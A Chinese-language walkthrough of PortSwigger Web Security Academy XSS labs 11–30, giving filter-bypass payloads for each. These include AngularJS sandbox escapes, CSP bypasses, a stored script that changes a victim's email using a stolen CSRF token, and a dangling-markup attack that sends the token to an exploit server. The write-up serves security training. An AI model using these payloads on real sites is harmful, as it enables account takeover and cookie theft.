

该函数会把 GET 参数 `storeId` 写入页面，既没有过滤也没有转义。因此在 URL 后加上：

```
&storeId=<script>alert(1)</script>
```

访问该网址即可通关。

## 11. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded



这一题利用 AngularJS 的表达式注入。查看源码：



AngularJS 版本是 1.7.7，已经移除了沙箱。先输入 `{{1+1}}` 测试：



页面显示 `2`，说明输入会被 AngularJS 编译。于是输入：

```
{{constructor.constructor('alert(1)')()}}
```

即可执行 `alert()`。



## 12. Reflected DOM XSS



随便搜索后查看源码，可以看到回显是通过 `/resources/js/searchResults.js` 里的 `search` 函数实现的。



进入 `resources/js/searchResults.js` 可以看到：



它用 JSON 接收搜索结果，并把结果直接拼进 `eval`。查看 Burp 代理的流量记录：



搜索内容被加上了双引号。尝试用双引号绕过时，发现双引号会被处理：



但反斜杠没有被处理：



因此可以在双引号前加反斜杠，让字符串在处理后变成 `\\"`。为了防止后面的双引号导致报错，再截断并注释掉后面的内容，输入：

```
\"+alert(1)}//
```

即可过关。



## 13. Stored DOM XSS



这一题的评论区是通过 `/resources/js/loadCommentsWithVulnerableEscapeHtml.js` 里的 `loadComments` 函数实现的。



该函数调用 `escapeHTML` 处理用户输入：





观察 `escapeHTML` 可以发现，它只会替换字符串里的第一个 `<` 和第一个 `>`，因此在 payload 前面加 `<>` 就能绕过。

## 14. Reflected XSS into HTML context with most tags and attributes blocked



这一题拦截了大多数标签。输入 `<script>` 后会提示标签不允许：



用 Burp Intruder 爆破标签名。PortSwigger 的 XSS cheat sheet 提供了完整的标签列表：

```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```





发现 `body` 可用，但这题同时还会过滤属性：


继续用 Intruder 爆破属性：


最后选一个容易触发的事件 `resize`。在 exploit server 构造恶意页面：

```html
<iframe src="https://0a0600320410fba7807003dc00b100f4.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload="this.style.width='100%'">
```

发送给受害者即可完成。

## 15. Reflected XSS into HTML context with all tags blocked except custom ones


这一题屏蔽了所有常规标签，只允许自定义标签；测试后发现属性没有被屏蔽。因此可以用 `onfocus` 配合 `autofocus` 让自定义标签获得焦点。

构造恶意页面：

```html
<script>
location='https://0ad800fe0496e4cf835ac96600250002.web-security-academy.net/?search=<abc onfocus=alert(document.Cookie) autofocus tabindex=1>'
</script>
```

发送给受害者即可。


## 16. Reflected XSS with some SVG markup allowed


这一题允许部分 SVG 标签。SVG 通常要配合其他标签使用，所以先爆破可用的标签和属性：


事件中只有 `onbegin` 能用，因此用 SVG 配合 `animatetransform` 触发：

```
<svg><animatetransform onbegin=alert(1)></svg>
```


即可通关。

## 17. Reflected XSS in canonical link tag


注意到 `<head>` 里的 canonical 链接包含当前网址，而且没有过滤：


利用 `accesskey` 把 `x` 绑定为快捷键，并把点击行为设为 `alert()`：

```
https://0a97009803eae2c88712a273009600fe.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

访问后按对应平台的快捷键即可触发。

## 18. Reflected XSS into a JavaScript string with single quote and backslash escaped


这一题处理了单引号和反斜杠。观察搜索结果页面的函数：


输入被直接拼接进 JavaScript 语句，但尖括号没有转义，因此可以闭合原来的 `script` 标签，再开启一个新的：

```
</script><script>alert(1)</script>
```


## 19. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped


这一题编码了双引号和尖括号，并转义单引号。查看源码可以发现，除了输入处理外，其他部分与上一题相同：


由于反斜杠没有被处理，可以像第 12 题那样在搜索框输入：

```
\';alert(1);//
```

即可绕过。

## 20. Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped


这一题的处理方式与上一题相似，但反斜杠也被转义了。先随便提交一条评论：


评论里的网址被拼进了 `onclick`。服务端没有处理 `&apos;`，而 HTML 实体解码早于 JavaScript 解析，所以可以用 `&apos;` 绕过。

在评论的网址后加上 `&apos;+alert(1)+&apos;`：


点击作者名后会触发 `onclick`，进而执行 `alert`。

## 21. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped


这一题把尖括号、单双引号、反斜杠和反引号都做了 Unicode 转义；题干提示注入点是模板字符串。


查看源码可以看到，搜索内容被转义后仍然拼进了模板字符串。直接在搜索框输入：

```
${alert(1)}
```

即可触发 alert。


## 22. Exploiting cross-site scripting to steal cookies

## 23. Exploiting cross-site scripting to capture passwords

这两题需要 Burp Pro，跳过。

## 24. Exploiting XSS to bypass CSRF defenses


题目要求用 XSS 绕过 CSRF（跨站请求伪造）防御。登录题目提供的账号后，可以看到更换邮箱的入口：


用 Burp 抓包可以看到，修改邮箱使用 POST，提交内容包含新邮箱和 CSRF token：


评论区可以注入 JavaScript，而且评论表单本身也带 CSRF token，因此可以通过评论区上传下面的脚本：

```html
<script>
var req = new XMLHttpRequest();
req.onload = function() {
  var token = this.responseText.match(/name="csrf" value="([^"]+)"/)[1];
  var form = document.createElement('form');
  form.action = '/my-account/change-email';
  form.method = 'POST';
  var email = document.createElement('input');
  email.name = 'email';
  email.value = '1@2';
  form.appendChild(email);
  var csrf = document.createElement('input');
  csrf.name = 'csrf';
  csrf.value = token;
  form.appendChild(csrf);
  document.body.appendChild(form);
  form.submit();
};
req.open('GET', '/my-account');
req.send();
</script>
```

之后访问该页面的用户会被自动把邮箱改成 `1@2`。

## 25. Reflected XSS with AngularJS sandbox escape without strings


这一题要绕过 AngularJS 沙箱。进入搜索结果页可以看到版本是 1.4.4，仍然包含沙箱：


同时可以看到题目使用的函数：


由于输入单引号会被编码，这里用 `toString`，并通过 `toString.constructor.prototype.charAt = [].join` 替换 `charAt` 来实现沙箱绕过。因为语句会在替换前解析，只有更内层的命令会用到替换后的 `charAt`；`eval` 被禁用，所以用 `orderBy` 输出。

payload 需要注入到 `$parse(key)` 的 key 中，因此在网址后添加参数：

```
toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```


## 26. Reflected XSS with AngularJS sandbox escape and CSP


这一题要同时绕过沙箱和 CSP。Burp 代理历史里可以看到网站的 CSP 设置，它限制脚本只能同源，因此需要用 AngularJS 绕过：


AngularJS 版本与上一题相同，仍需绕过沙箱：


使用 payload：

```
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x'
```

把它转码后拼到网址上，并在攻击页面用 `location` 跳转：

```html
<script>
location='https://0a380007045c6571816f200200060017.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'
</script>
```

发送给受害者即可。

## 27. Reflected XSS with event handlers and `href` attributes blocked


这一题禁用了事件和 `href` 属性。爆破后可以看到可用的标签：


`href` 被禁止，但题目又要求用到它，因此用 SVG 的 `animate` 动态给 `a` 标签添加 `href`：

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>
```


点击 `Click me` 后即可触发 alert。

## 28. Reflected XSS in a JavaScript URL with some characters blocked


查看源码可以看到，GET 传入的值被拼进了返回的超链接：


尝试修改内容后发现，只要语句能闭合、并且 `postId` 能被找到，就可以被解析；但空格会被转义成 `+`，括号也会被去掉。


因此使用 payload：

```
5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

它先定义一个函数，把 `onerror` 改成 `alert` 并抛出异常 `1337`；再把 `toString` 指向这个函数，通过 `window.''` 调用 `toString`。触发未捕获异常 `1337` 后，`onerror` 执行 `alert`，最后闭合语句。

把 payload 拼到网址后，点击 Back to Blog 即可弹出 alert。

## 29. Reflected XSS protected by very strict CSP, with dangling markup attack


登录题目提供的账号后，在更换邮箱页面通过 GET 传入 `email` 参数，内容会出现在邮箱输入框中，而且被直接写进网址：


尝试闭合 `input` 并添加新元素：


但由于 CSP，无法直接执行脚本：


因此先生成一个按钮，诱导受害者点击，把 CSRF token 发到攻击服务器；攻击服务器拿到 token 后再发送修改邮箱的请求。

添加：

```html
<button formaction="https://exploit-0a3a00d2036e8f5e813d5b04019d00f6.exploit-server.net/exploit" formmethod=get type="submit">Click me</button>
```

token 到达攻击服务器后，用下面的表单和脚本修改邮箱：

```html
<form class="login-form" name="change" action="https://0aed007e03628ff981dc5cf2000a0058.web-security-academy.net/my-account/change-email" method="POST" style="display:none">
  <input required type="email" name="email" value="hacker@evil-user.net">
  <input required type="hidden" name="csrf" value="">
  <script>
    var url = new URL(document.location);
    var c = url.searchParams.get('csrf');
    if (c) {
      var f = document.getElementsByName('change')[0];
      var s = document.getElementsByName('csrf')[0];
      s.value = c;
      f.submit();
    } else {
      location = 'https://0aed007e03628ff981dc5cf2000a0058.web-security-academy.net/my-account?email=1@2"><button%20formaction="https://exploit-0a3a00d2036e8f5e813d5b04019d00f6.exploit-server.net/exploit" formmethod=get type="submit">Click%20me</button>';
    }
  </script>
</form>
```

发送给受害者即可过关。

## 30. Reflected XSS protected by CSP, with CSP bypass


在 Burp 的代理历史中可以看到这一题的 CSP 策略：


策略里没有 `script-src-elem`，同时 `token` 参数可以注入。因此在输入 XSS 语句的同时，用 `token` 注入 `script-src-elem 'unsafe-inline'`，覆盖 `script-src`，让注入的脚本可以执行：

```
<script>alert%281%29<%2Fscript>&token=;script-src-elem%20%27unsafe-inline%27;
```


